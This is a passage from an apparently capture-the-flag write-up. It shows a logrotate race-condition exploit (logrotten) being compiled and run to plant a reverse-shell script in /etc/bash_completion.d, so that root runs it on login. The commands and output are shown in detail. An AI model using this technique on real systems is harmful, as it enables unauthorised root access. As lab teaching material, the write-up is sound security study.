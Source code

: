     
    
                rename(logpath,logpath2);
                symlink(targetdir,logpath);
    

First, it moves `/home/reader/backup` to `/home/reader/backup2`.

Then it creates a symlink at `/home/reader/backup` pointing to the target
directory, which by default is `/etc/bash_completion.d`.

`/etc/bash_competion` and `/etc/bash_completion.d` are scripts that are run
when a new bash session is started for any user that define how tab completion
will work. For example, on my computer, I have one for Git, so when I type
`git checko[tab]`, it knows to complete that to `git checkout`.

By creating a file in `/etc/bash_completion.d` that is owned by reader, the
exploit can now write the payload into that file, and that payload will be run
each time a user logs in. It turns out that root is also logging in
periodically.

#### Practice

Staging out of `/dev/shm`, I’ll paste the exploit source in and compile it:

    
    
    reader@book:/dev/shm$ gcc -o logrotten logrotten.c 
    

I’ll also create a simple bash reverse shell (and test is as reader to make
sure it works).

Because I know things are resetting every five seconds, I’ll act quickly,
writing the log file and then running the exploit in one line:

    
    
    reader@book:/dev/shm$ echo 0xdf >> /home/reader/backups/access.log; ./logrotten /home/reader/backups/access.log rev_shell.sh 
    logfile: /home/reader/backups/access.log
    logpath: /home/reader/backups
    logpath2: /home/reader/backups2
    targetpath: /etc/bash_completion.d/access.log
    targetdir: /etc/bash_completion.d
    p: access.log
    reader@book:/dev/shm$
    

Once it returns, I can see the reverse shell is now in the `bash_completion.d`
folder:

    
    
    reader@book:/dev/shm$ ls -l /etc/bash_completion.d/
    total 32
    -r-xr-xr-x 1 reader reader    55 Feb 28 13:08 access.log
    -rw-r--r-- 1 root   root    6636 Nov 20  2017 apport_completion
    -rw-r--r-- 1 root   root    3211 Oct  2  2018 cloud-init
    -rw-r--r-- 1 root   root     439 Nov 26  2018 git-prompt
    -rw-r--r-- 1 root   root   11144 Mar 18  2019 grub
    